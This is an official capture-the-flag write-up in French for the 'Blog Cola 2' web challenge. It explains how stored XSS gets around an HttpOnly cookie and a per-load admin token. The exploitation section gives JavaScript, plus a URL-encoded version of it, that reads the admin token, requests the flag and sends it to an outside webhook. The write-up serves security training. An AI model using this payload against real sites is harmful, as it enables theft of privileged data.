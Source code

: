 # Blog Cola 2 WU officiel

## Description du challenge et objectif

Ce challenge a pour objectif d’introduire les failles présentes sur les clients web. Pour ce faire, vous avez accès à un site web de Popa Cola : Blog Cola.

C’est par le biais de ce site que l’entreprise concurrente dénigre Freizh Cola. Il faut donc prendre le contrôle du site afin de mettre un terme à cette mauvaise publicité.

Pour cela, il sera nécessaire de devenir administrateur sur le site web, ce qui donnera accès au panneau d’administration (qui affiche le flag).

## Modifications par rapport au challenge précédent

### HttpOnly

Le cookie est maintenant défini en tant que `HttpOnly` :

```py
# dans bot.py

def visit(url, token):

    [...]

    driver.add_cookie({
        "name": "token",
        "value": token,
        "path": "/",
        "httpOnly": True,
        "samesite": "Strict",
        "domain": "127.0.0.1"
    })

    [...]
```

### Désactivation de la création de posts

```html
<!-- Dans templates/create.html -->

[...]

<form action="" method="post">
    <input type="text" name="title" placeholder="Title" required>
    <fieldset id="tinyMCE"></fieldset>
    <button type="submit" disabled="true">Cr&eacute;er</button>
</form>

[...]
```

### Changement de la mécanique de récupération du flag

```py
# dans app.py

@app.route("/admin", methods=["GET", "POST"])
def admin():
    global token

    if request.method == "GET":
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        token = "".join([ascii_letters[randint(0, len(ascii_letters) - 1)] for _ in range(50)])
        return render_template("admin.html", token=token)

    if request.method == "POST":
        # vérifie que l'utilisateur est admin
        if not request.cookies.get("token") == ADMIN_SESSION_KEY:
            return redirect("/")
        
        # vérifie que le token transmis est le bon -> la requête vient bien de la page admin
        if not request.form.get("flag-token") == token:
            return redirect("/")
        
        return FLAG
```

```html
<!-- Dans templates/admin.html -->

[...]
<div class="flag-container">
    <button onclick="getflag()">R&eacute;cup&eacute;rer le flag</button>
    <h1 hidden="true" id="flag-title">Flag</h1>
    <p id="flag-container"></p>
</div>

<script>
    function getflag() {
        token = "{{token}}"
        flag_container = document.getElementById("flag-container")
        flag_title = document.getElementById("flag-title")

        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({
                "flag-token": token
            })
        }).then((r) => r.text()).then((q) => {
            flag_container.innerHTML = q
            flag_title.hidden = false
        })
    }
</script>
[...]
```

La nouvelle page admin contient un bouton qui envoie une requête POST pour récupérer le flag. Cette récupération repose à la fois sur le cookie d’authentification admin et sur un nouveau token généré à chaque chargement de la page.

## Exploitation

Pour contourner ces nouvelles protections, il est d’abord nécessaire de pouvoir créer des articles. Ici, c’est assez simple : il suffit de modifier l’attribut HTML du bouton désactivé pour pouvoir l’utiliser de nouveau. Par exemple, en supprimant complètement l’attribut `disabled`.

![désactivation bouton](./wu/image-21.png)

Pour la suite de l’exploitation, on peut se référer au premier challenge. Ce qui change ici, c’est le script JavaScript utilisé.

En effet, il faut un script qui :
- récupère le `flag-token` via un accès GET à `/admin` ;
- envoie ce `flag-token` via une requête POST sur `/admin` ;
- redirige le contenu de la réponse vers un webhook.

```js
fetch("/admin").then(
    (r) => r.text()
).then(
    (q) => {
        flag = q.match(/token = "[A-Za-z]*"/g)[0].match(/[A-Za-z]{10,50}/g)[0]; // extrait le flag-token
        fetch("/admin", {
            method: "POST",
            body: new URLSearchParams({ 'flag-token': flag })
        }).then(
            (s) => s.text()
        ).then(
            (x) => fetch("https://hhhhhh.free.beeceptor.com?flag=" + x) // envoie le flag au webhook
        );
    }
)
```

Ce qui donne, après encodage URL, le payload final :

```html
title=bbbbb&tinyMCE=<script>fetch%28%22%2Fadmin%22%29%2Ethen%28%0A%20%20%20%20%28r%29%20%3D%3E%20r%2Etext%28%29%0A%29%2Ethen%28%0A%20%20%20%20%28q%29%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20flag%20%3D%20q%2Ematch%28%2Ftoken%20%3D%20%22%5BA%2DZa%2Dz%5D%2A%22%2Fg%29%5B0%5D%2Ematch%28%2F%5BA%2DZa%2Dz%5D%7B10%2C50%7D%2Fg%29%5B0%5D%3B%0A%20%20%20%20%20%20%20%20fetch%28%22%2Fadmin%22%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20method%3A%20%22POST%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20body%3A%20new%20URLSearchParams%28%7B%20%27flag%2Dtoken%27%3A%20flag%20%7D%29%0A%20%20%20%20%20%20%20%20%7D%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28s%29%20%3D%3E%20s%2Etext%28%29%0A%20%20%20%20%20%20%20%20%29%2Ethen%28%0A%20%20%20%20%20%20%20%20%20%20%20%20%28x%29%20%3D%3E%20fetch%28%22https%3A%2F%2Fhhhhhh%2Efree%2Ebeeceptor%2Ecom%3Fflag%3D%22%20%2B%20x%29%3B%0A%20%20%20%20%7D%0A%29</script>
```

Ce payload permet donc de recevoir directement le flag sur votre webhook.

![flag](./wu/image-22.png)
